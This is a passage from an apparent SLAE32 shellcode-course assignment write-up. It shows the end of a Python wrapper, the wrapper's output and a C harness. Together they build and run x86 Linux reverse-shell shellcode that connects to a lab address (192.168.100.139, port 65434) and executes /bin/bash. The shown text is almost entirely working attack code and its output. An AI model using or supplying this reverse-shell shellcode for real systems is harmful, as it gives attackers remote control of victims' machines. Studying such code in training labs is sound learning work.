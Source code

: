 ```term
+ final_port +
"\\x66\\x6a\\x02\\x89"
"\\xe1\\xb2\\x1e\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0\\x66\\x6a\\x3f\\x66"
"\\x58\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\x75\\xf1\\x31\\xc0\\x50\\x68\\x62\\x61"
"\\x73\\x68\\x68\\x62\\x69\\x6e\\x2f\\x68\\x2f\\x2f\\x2f\\x2f\\x89\\xe3\\x50"
"\\x89\\xe2\\x53\\x89\\xe1\\x66\\x6a\\x0b\\x66\\x58\\xcd\\x80")


print '"' + (buf) + '"'
```

###### Executing the wrapper:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_2$ python wrapper.py 192.168.100.139 65434 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x6a\x01\x66\x58\x89\xf3\x52\x68\xC0\xA8\x64\x8B\x66\x68\xff\x9a\x66\x6a\x02
\x89\xe1\xb2\x1e\xcd\x80\x31\xc9\xb1\x03\x31\xc0\x66\x6a\x3f\x66\x58\x89\xf3\xfe\xc9\xcd\x80\x75\xf1\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\
xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80"
whitecr0wz@SLAE:~/assembly/assignments/Assignment_2$
```

Let's test this on a C file to make sure that the shellcode could work on a real environment:

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x6a\x01\x66\x58\x89\xf3\x52\x68\xC0\xA8\x64\x8B\x66\x68\xff\x9a\x66\x6a\x02
\x89\xe1\xb2\x1e\xcd\x80\x31\xc9\xb1\x03\x31\xc0\x66\x6a\x3f\x66\x58\x89\xf3\xfe\xc9\xcd\x80\x75\xf1\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\
xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80"
;

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame

![](/assets/img/SLAE/SLAE32/Assignment_2/2.png)
